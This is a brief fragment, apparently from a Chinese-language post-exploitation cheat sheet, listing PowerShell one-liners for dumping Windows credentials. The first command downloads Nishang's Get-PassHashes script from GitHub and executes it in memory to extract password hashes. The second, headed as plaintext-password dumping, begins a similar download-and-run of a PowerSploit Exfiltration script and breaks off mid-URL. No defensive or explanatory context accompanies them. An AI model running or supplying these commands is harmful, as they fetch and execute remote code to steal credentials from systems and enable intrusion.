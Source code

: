 
在线导hash

powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes


在线导明文

powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration
